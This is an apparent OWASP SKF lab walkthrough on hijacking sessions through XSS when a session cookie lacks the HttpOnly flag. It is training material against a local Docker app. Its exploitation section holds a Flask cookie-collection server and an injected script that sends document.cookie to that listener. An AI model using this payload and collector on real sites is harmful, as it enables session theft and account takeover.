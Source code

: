 # HttpOnly Session Hijacking

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:js-session-hijacking-xss
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:js-session-hijacking-xss
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

The attacker can compromise the session token by using malicious code or programs running at the client-side. The example shows how the attacker could use an XSS attack to steal the session token.

Because the server keeps track of the current authenticated user by means of the value of the session cookie, whenever this session cookie gets compromised an attacker is able to impersonate this user by changing his current session cookie with the compromised session cookie in his browsers session storage.

Lets start the application and login with the default credentials.

username : admin  
password: admin

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/Session-Hijacking-XSS/1.png)

After authenticating to the server we can see that the user has a text-area
field at his dissposal to insert user input. When we press submit we find that
this user supplied input is being reflected on the side of the client. This is a perfect indicator that we might want to start testing for cross site scripting attacks.

Refer to the XSS labs for more information how to test!

Now, at this point we established that the application is suspectible for cross site scripting attacks after playing around with some payloads. However, the goal for this lab is to obtain the users session cookie to perform a session hijacking attack and to be able to impersonate the user on the server.

We can tell if we can hijack the session information by inspecting the cookies and see if the HTTP/HttpOnly attribute is enabled for the session cookie.

Highlighted in red we find this attribute and see that it is not activated for this application

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/Session-Hijacking-XSS/2.png)

Now, we can inject the a piece of malicious javascript to see if we can prompt an alert box that displays the applications session information.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/Session-Hijacking-XSS/3.png)

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/Session-Hijacking-XSS/4.png)

## Exploitation

Now that we have determined that we can

1\) inject malicious javascript

2\) The HttpOnly attribute is not set for the session cookie

We can start building our malicious payload and hijack the session information to our malicious webserver.

```python
from flask import Flask, request, url_for, render_template, redirect, make_response
import requests

app = Flask(__name__, static_url_path='/static', static_folder='static')
app.config['DEBUG'] = True

@app.route("/<steal_cookie>", methods=['GET'])
def start(steal_cookie):
    return render_template("evil.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Save the snippet above to > app.py and run the commands below to install some dependencies.

```
$ pip install flask
$ pip install requests
$ python app.py
```

Of course you can also run your app on whatever service you want it does not have to be python flask.

Now that the service is running we want to inject the malicious piece of javascript that is responsible for hijacking the victims session information.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/Session-Hijacking-XSS/5.png)

```html
<script>
  new Image().src = "http://localhost:1337/?stolen_cookie=" + document.cookie;
</script>
```

After injecting the malicious javascript in the text-area field we see the stolen cookie in the server logs.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/Session-Hijacking-XSS/6.png)

The attacker can now change the session cookie value in his browers console by the session cookie that we hijacked with our malicous payload to "hijack" the victims account.
